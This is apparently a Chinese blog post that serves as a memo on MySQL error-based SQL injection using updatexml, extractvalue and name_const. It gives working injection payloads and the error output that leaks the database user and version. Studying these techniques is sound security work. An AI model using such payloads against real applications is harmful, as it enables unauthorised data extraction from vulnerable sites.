```yaml
---
layout: post
title:  "mysql报错注入"
date:   2018-01-06 21:41:45 +0800
categories: [mysql注入, 报错注入]
---
```


>本来在上一篇文章中本来说了要把报错注入和出错的原因写完的，但是想了下大多数的报错并不像双查询报错那样原理复杂，很多只是函数的问题，所以这一篇就单纯的作为报错的备忘录，稍带原理

1.**Updatexml报错**
```mysql
mysql> help updatexml
Name: 'UPDATEXML'
Description:
Syntax:
UpdateXML(xml_target, xpath_expr, new_xml)

This function replaces a single portion of a given fragment of XML
markup xml_target with a new XML fragment new_xml, and then returns the
changed XML. The portion of xml_target that is replaced matches an
XPath expression xpath_expr supplied by the user.

If no expression matching xpath_expr is found, or if multiple matches
are found, the function returns the original xml_target XML fragment.
All three arguments should be strings.

URL: http://dev.mysql.com/doc/refman/5.7/en/xml-functions.html

Examples:
mysql> SELECT
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
    ->   UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val5
    -> \G

*************************** 1. row ***************************
val1: <e>fff</e>
val2: <a><b>ccc</b><d></d></a>
val3: <a><e>fff</e><d></d></a>
val4: <a><b>ccc</b><e>fff</e></a>
val5: <a><d></d><b>ccc</b><d></d></a>
```
可见函数要求第二个参数为xpath格式的字符串，否则就爆出符号错误
```mysql
mysql> select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
2 . **Extractvalue报错**
这个函数和updatexml一样，都是对xml格式数据进行操作，第二个参数也为xpath格式字符串，具体可以help
```mysql
mysql> select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
3 . **Name_const报错**
首先在这里补一个背景知识
1. 在4.1版本后的mysql中支持subquery：也就是一个查询的结果可以作为另一个查询的from对象，可以说是像这样（select * from(select * from a)x）嵌套查询，这里的x是as x的意思也就是alias，子查询需要alias成一个符号才不会报错

ok，先来看看name_cast的help文档
```mysql
mysql> help name_const
Name: 'NAME_CONST'
Description:
Syntax:
NAME_CONST(name,value)

Returns the given value. When used to produce a result set column,
NAME_CONST() causes the column to have the given name. The arguments
should be constants.

mysql> SELECT NAME_CONST('myname', 14);
+--------+
| myname |
+--------+
|     14 |
+--------+

URL: http://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html
```
这是根据name和value生成一个column的函数，结合前面的背景知识我们可以试图构造出和双查询类似的具有相同key值的错误，不过可惜这个利用在高版本中被要求为constants，不然就会先报这个错误，等于是加了个检测，但是在下面的测试中我发现有意外
```mysql
mysql> select * from users where id=1 and (select * from (select name_const(version(),1),name_const(version(),1))a);
ERROR 1060 (42S21): Duplicate column name '5.7.17'
mysql> select * from users where id=1 and (select * from (select name_const(database(),1),name_const(database(),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
mysql> select * from users where id=1 and (select * from (select name_const((select 1),1),name_const((select 1),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
```
发现了吧 version()还是可以爆出来的...

还有一些网上写的函数发现本地没有爆出来，就暂时不写上来了，下一篇盲注